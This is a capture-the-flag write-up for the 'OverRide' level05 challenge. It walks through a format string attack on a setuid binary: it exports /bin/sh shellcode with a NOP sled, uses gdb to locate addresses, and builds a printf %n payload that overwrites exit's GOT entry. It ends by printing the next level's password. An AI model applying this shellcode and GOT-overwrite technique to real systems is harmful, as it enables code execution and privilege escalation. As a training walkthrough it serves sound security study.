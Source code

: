 ## Project README: Finding flag05

The [proGram](./source) given is taking a inout from stdin, and print a lower case version of our input. The thing is, the program is using printf in a way that allow us to use `Format string attack`. 

### Analysis

Since we don't have any deadcode, system call or password read, we need to do a `ret to lib` or `shellcode into variable env`. We choose the second option here.

### Progress

First things, let's export our shellcode:

```sh
export shellcode="`python -c 'print("\x90" * 500 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")'`"
```

Next step, let's find out where our shellcode is stock:

```sh
level05@OverRide:~$ gdb -q ./level05 
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05 

Breakpoint 1, 0x08048449 in main ()
(gdb) x getenv("shellcode")
0xffffdcff:	0x90909090
```

As we can see, our `shellcode` is at `0xffffdcff`.

Now, we need to know which address we would like to rewrite. So we when to change the jmp from exit to our shellcode.

```sh
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	push   edi
   0x08048448 <+4>:	push   ebx
=> 0x08048449 <+5>:	and    esp,0xfffffff0
   0x0804844c <+8>:	sub    esp,0x90
   0x08048452 <+14>:	mov    DWORD PTR [esp+0x8c],0x0
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>
   0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
   0x08048485 <+65>:	jmp    0x80484d3 <main+143>
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a
   0x080484a9 <+101>:	jg     0x80484cb <main+135>
   0x080484ab <+103>:	lea    eax,[esp+0x28]
   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:	mov    edx,eax
   0x080484bb <+119>:	xor    edx,0x20
   0x080484be <+122>:	lea    eax,[esp+0x28]
   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl
   0x080484cb <+135>:	add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>:	mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>:	lea    eax,[esp+0x28]
   0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>:	mov    edx,eax
   0x080484e8 <+164>:	mov    eax,0x0
   0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>:	mov    edi,edx
   0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:	mov    eax,ecx
   0x080484f7 <+179>:	not    eax
   0x080484f9 <+181>:	sub    eax,0x1
   0x080484fc <+184>:	cmp    ebx,eax
---Type <return> to continue, or q <return> to quit---
   0x080484fe <+186>:	jb     0x8048487 <main+67>
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
(gdb) disas 0x8048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    DWORD PTR ds:0x80497e0
   0x08048376 <+6>:	push   0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

So the address we need to change is `0x080497e0`. We need to put `0xffffdcff` into `0x80497e0`. The following point is to find where we start to write if printf.

```sh
level05@OverRide:~$ python -c 'print("AAAA" + " %p"*30)' | ./level05 
aaaa 0x64 0xf7fcfac0 0xf7ec3add 0xffffd4bf 0xffffd4be (nil) 0xffffffff 0xffffd544 0xf7fdb000 0x61616161 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```
Let's find the patern `AAAA` we are looking for `0x41414141` but the only things looking alike is `0x61616161` and when we print it into ascii is `aaaa`. As we can see into our [souce code](./source) inline 10, program switch every upper char into lower. so we start to right a the 10th address.

Resume: 

- `\xe0\x97\x04\x08` -> address to change in little endian
- `0xffffdcff` the address we need to write, in decimal it means: `4294958335`
- `Format string attack`

We have all our elements, let's cook our receipe.

Our payload will look like :

```sh
python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")'
```

Let's try it:

```sh 
level05@OverRide:~$ python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")' | ./level05 
�level05@OverRide:~$ 
```

Nothing...

After looking into `gdb`:

```sh
(gdb) run <<< level05@OverRide:~$ $(python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")')
Starting program: /home/users/level05/level05 <<< level05@OverRide:~$ $(python -c 'print("\xe0\x97\x04\x08" + "%4294958335x" + "%10$n")')
level05@override:~$

Breakpoint 1, 0x08048513 in main ()
(gdb) x/64xw 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376	0xf7e45420	0x00000000	0x00000000
0x80497f0:	0xf7fcfac0	0x00000000	0x00000000	0x00000000
0x8049800:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049810:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049820:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049830:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049840:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049850:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049860:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049870:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049880:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049890:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80498d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

We can see that our value have a strange value...
After some research, we realize that printf can only right 2147483647 bytes into ou memory and our address is way bigger then INT MAX.

Back to searching, after a few moments, we realize we had a buffer of 100 char which means we can overwrite more then one address.

So the idea is to write our big address in two time.

So the payload will look like:

```sh
python -c 'print("address of jmp exit" + "address of jmp + 2" + "%[nb byte for the last part - nb byte wrote]x" + "%[nb bytes remaining for the first part + some padding due to moving stack]x" + "%[place of the first address]n" + "%[place of the second address]n")'
```

Our address is : `0xffffdcff`
If we split it in two parts, it gives us:
`fff` and `dcff`. Since we need a bit of padding for our shellcode instead of `dcff` we will put `ddff` in order to expect to fall into `\x90`.

Okay let's create our payload.
For us it will be:

```sh
python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" +"%56823x" + "%10$n"  + "%8704x" + "%11$n")'
```

Let's try it: 

```sh
level05@OverRide:~$ (python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" +"%56823x" + "%10$n"  + "%8704x" + "%11$n")';cat) | ./level05
�                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            64                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     f7fcfac0
whoami
level06
cd ../level06
cat .pa
cat: .pa: No such file or directory
cat .pass 
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

And voila.